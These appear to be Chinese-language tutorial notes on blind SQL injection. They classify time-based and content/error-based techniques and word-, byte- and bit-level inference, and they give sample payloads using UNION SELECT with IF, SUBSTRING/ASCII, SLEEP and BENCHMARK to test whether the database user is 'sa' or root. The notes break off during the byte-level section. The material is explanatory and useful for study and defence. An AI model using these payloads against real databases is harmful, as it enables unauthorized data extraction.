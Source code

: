 >盲注，按照盲注的方法有三种盲注方式
1. 基于时间的盲注；
2. 基于内容/错误的盲注；
按照盲注的条件，即又可以分为：
    1. 以单词为条件；
    2. 以字节为单位；
    3. 以bit为单位的并发；




1. 以单词为条件；

```sql
union select if(system_user='sa' ,sheep(1),1)
```


这个就是以system_user整个为单位，判断是否符合要求
2. 以字节为单位
使用substring函数提取字符串中的一位

```sql
union select if(ascii(substring((...),i,1)) >k ,sheep(1),1)
```


3. 使用bit为单位
<img src="http://wujiashuaitupiancunchu.oss-cn-shanghai.aliyuncs.com/jupyter_notebook_img/96yh7wi75wi.png" width="400px" />
$$使用bit为单位$$



## 基于时间的盲注

### MySQL
1. 使用sleep函数
2. 使用BENCHMARK函数

#### 按照单词进行盲注
可进行的最简单的推断是我们是否在作为超级用户运行查询:
1. 使用sleep函数

```sql
SELECT count(*) FROM reviews WHERE review_auther='MadBob' UNION
SELECT IF(SUBSTRING(USER(),1,4)='root',SLEEP(5),1)；
```


2.使用BENCHMARK函数

```sql
SELECT count(*) FROM reviews WHERE review_auther='MadBob' UNION
SELECT IF(SUBSTRING(USER(),1,4)='root',BENCHMARK(100000,RAND()),1);
```


#### 以字节为单位进行盲注
以字节为单位的话，存在两种比较方式。第一种是顺序盲注。第二种是二分盲注
举个例子
